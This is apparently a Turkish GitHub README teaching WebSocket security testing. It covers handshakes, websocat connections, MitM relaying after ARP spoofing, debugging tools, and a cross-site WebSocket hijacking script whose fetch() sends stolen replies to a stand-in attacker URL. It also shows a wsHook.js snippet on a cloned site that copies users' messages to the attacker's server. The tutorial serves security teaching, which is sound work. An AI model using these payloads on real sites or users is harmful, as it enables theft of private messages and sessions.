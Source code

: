 # WebSockets Nedir?

WebSockets, genellikle uzun ömürlü olan ve tipik olarak HTTP üzerinden başlatılan bağlantılardır. İletişim her iki yönde de herhangi bir zamanda gerçekleşebilir ve genellikle bağlantı, istemci veya sunucunun bir mesaj göndermeye hazır olduğu ana kadar açık ve boşta kalır. WebSockets, düşük gecikme veya sunucu başlatmalı mesajlar gibi durumlarda kullanışlıdır, örneğin finansal verilerin gerçek zamanlı akışları.

## Neler öğreneceğiz?

- WebSockets Nedir?
- WebSockets Bağlantısı Nasıl Kurulur?
- Linux Konsolu ile WebSocket Bağlantısı Kurma
- WebSocket Bağlantılarını Man-in-the-Middle (MitM) Yapma
- WebSocket Enumerasyonu ve Güvenlik Analizi
- WebSockets Hata Ayıklama Araçları ve İpuçları
- Cross-site WebSocket Hijacking (CSWSH) Tehdidi ve Savunma
- Kullanıcıdan Veri Çalmak İçin WebSocket Saldırıları


## WebSockets Bağlantısı Nasıl Kurulur?

WebSockets bağlantıları genellikle şu şekilde, istemci tarafında JavaScript kullanılarak oluşturulur:

```javascript
var ws = new WebSocket("wss://normal-website.com/ws");
```

"**wss**" protokolü, şifreli bir TLS bağlantısı üzerinden WebSocket'i kurar; "**ws**" protokolü ise şifrelenmemiş bir bağlantı kullanır. Bağlantıyı kurmak için tarayıcı ve sunucu, bir HTTP üzerinden WebSocket el sıkışması gerçekleştirir. Tarayıcı, şu şekilde bir WebSocket el sıkışması isteği gönderir:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

Eğer sunucu bağlantıyı kabul ederse, şu şekilde bir WebSocket el sıkışması yanıtı döner:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

Bu noktadan sonra ağ bağlantısı açık kalır ve her iki yönde WebSocket mesajları göndermek için kullanılabilir.

## Notlar
WebSocket el sıkışması mesajlarının bazı özellikleri şunlardır:
- İstek ve yanıtın **Connection** ve **Upgrade** başlıkları, bu el sıkışmasının bir WebSocket el sıkışması olduğunu belirtir.
- **Sec-WebSocket-Version** istek başlığı, istemcinin kullanmak istediği WebSocket protokol sürümünü belirtir. Genellikle 13'tür.
- **Sec-WebSocket-Key** istek başlığı, Base64 ile kodlanmış rasgele bir değeri içerir. Bu değer, her el sıkışma isteğinde rasgele olarak oluşturulmalıdır.
- **Sec-WebSocket-Accept** yanıt başlığı, **Sec-WebSocket-Key** istek başlığındaki değerin, protokol spesifikasyonunda tanımlı belirli bir dize ile birleştirilmiş bir karma değeridir. Bu, yanıltıcı yanıtları önlemek için yapılır.
- **Sec-WebSocket-Key** başlığı, önbellek proxy'lerinden kaynaklanan hataları önlemek için kullanılır ve kimlik doğrulama veya oturum yönetimi amacıyla kullanılmaz (Bir CSRF belirteci değildir).

## WebSockets Bağlantısı (Linux)

websocat kullanarak bir WebSocket ile doğrudan bağlantı kurabilirsiniz:

```bash
websocat --insecure wss://10.10.10.10:8000 -v
```

Veya bir websocat sunucusu oluşturmak için:

```bash
websocat -s 0.0.0.0:8000 # Port 8000'de dinle
```

## WebSocket Bağlantılarında Man-in-the-Middle (MitM) Saldırısı

Eğer istemcilerin mevcut yerel ağınızdan bir HTTP WebSocket'ine bağlandığını fark ederseniz, bir ARP Spoofing Saldırısı kullanarak bir MitM saldırısı yapabilirsiniz. İstemci bağlanmaya çalıştığında şunları kullanabilirsiniz:

```bash
websocat -E --insecure --text ws-listen:0.0.0.0:8000 wss://10.10.10.10:8000 -v
```

## WebSocket Enumerasyonu

[STEWS](https://github.com/PalindromeLabs/STEWS) aracını kullanarak WebSocket'leri otomatik olarak keşfetmek, parmak izlemek ve bilinen güvenlik açıklarını aramak için kullanabilirsiniz.

## WebSocket Hata Ayıklama Araçları

[Burp Suite](https://portswigger.net/burp) web soket iletişimini normal HTTP iletişiminde olduğu gibi MitM destekler.

[Socketsleuth](https://github.com/summitt/Burp-Suite-SocketSleuth) Burp Suite uzantısı, Websocket iletişimlerini daha iyi yönetmenizi sağlar. Geçmişi alabilir, interception kuralları belirleyebilir, eşleştirme ve değiştirme kurallarını kullanabilir, Intruder ve AutoRepeater kullanabilirsiniz.

[WSSiP](https://github.com/PentesterES/WSSiP) (WebSocket/Socket.io Proxy) adlı bu Node.js aracı, istemci ve sunucu arasındaki tüm WebSocket ve Socket.IO iletişimlerini yakalamak, durdurmak, özel mesajlar göndermek ve görüntülemek için bir kullanıcı arayüzü sağlar.

[wsrepl](https://github.com/hypoweb/wsrepl) interaktif bir WebSocket REPL'dir ve özellikle penetrasyon testi için tasarlanmıştır. Gelen WebSocket mesajlarını gözlemlemek ve yeni mesajlar göndermek için bir arayüz sağlar, bu iletişimi otomatikleştirmek için kullanımı kolay bir çerçeve sunar.

[WebSocketKing](https://websocketking.com/) bir web aracıdır ve web soketleri kullanarak diğer web siteleriyle iletişim kurmanıza olanak tanır.

[Hoppscotch](https://hoppscotch.io/realtime/websocket) WebSocket ve diğer iletişim/protokoller için bir web aracı sağlar.

## Cross-site WebSocket Hijacking (CSWSH)

Ayrıca "**cross-origin WebSocket hijacking**" veya "**cross-origin WebSocket hijacking**" olarak da bilinen bu saldırı, WebSocket el sıkışmasında Cross-Site Request Forgery (CSRF) kullanır. Bu, WebSocket el sıkışma isteğinin yalnızca HTTP çerezlerine güvenmesi ve CSRF belirteçleri veya diğer tahmin edilemez değerleri içermemesi durumunda ortaya çıkar.

### Basit Saldırı

Unutmayın ki bir WebSocket bağlantısı kurulduğunda cookie sunucuya gönderilir. Sunucu, örneğin bir mesajla "READY" ifadesi gönderildiğinde kullanıcıya ait bir konuşma geçmişini geri gönderiyorsa, basit bir XSS bağlantısı kurarak (cookie otomatik olarak gönderilecektir) "READY" mesajını göndererek konuşma geçmişini çalabilirsiniz:

```html
<script>
websocket = new WebSocket('wss://websoket-urlsi')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); // Gizli bilgileri almak için mesaj gönder
}

function handleReply(event) {
  // Gizli bilgileri saldırganın sunucusuna gönder
  fetch('https://kendi-makine-urlniz/?'+event.data, {mode: 'no-cors'})
}
</script>
```

## Kullanıcıdan Veri Çalmak

Hedeflenen web uygulamasını taklit etmek için (.html dosyaları gibi) siteyi kopyalayın ve WebSocket iletişiminin gerçekleştiği script içine aşağıdaki kodu ekleyin:

```html
<script src='wsHook.js'></script>

//Bu, bir mesaj gönderilmeden önce veya sunucudan alındıktan sonra çalışacak işlevlerdir
//Bu kod, bir <script> etiketi arasında veya bir .js dosyasının içinde olmalıdır
wsHook.before = function(data, url) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "client_msg?m="+data, true);
    xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
    xhttp.send();
    return messageEvent;
}
```

Şimdi [wsHook.js](https://github.com/skepticfx/wshook) dosyasını indirin ve web dosyalarının bulunduğu klasörün içine kaydedin.
Web uygulamasını açığa çıkararak ve bir kullanıcının ona bağlanmasını sağlayarak websocket aracılığıyla gönderilen ve alınan mesajları çalabileceksiniz:
```bash
sudo python3 -m http.server 80
```

# Yasal Uyarı!
Bu GitHub deposu, WebSocket teknolojisi üzerinde yapılan saldırılarla ilgili bilgiler içermektedir. Bu bilgiler, siber güvenlik alanındaki profesyoneller ve etik hackerlar için eğitim amaçlı sağlanmaktadır.

**Dikkat:** Bu depo içinde bulunan bilgiler, yalnızca eğitim amaçlıdır ve kötü niyetli kullanım amacı taşımaz. WebSocket saldırıları gerçekleştirilirken yasal düzenlemelere, etik kurallara ve hedef sistemlere izin almadan müdahale etmek yasa dışıdır. Bu depo tarafından sağlanan bilgilerin kötü niyetli kullanımı, yasalar gereğince cezalandırılabilir.
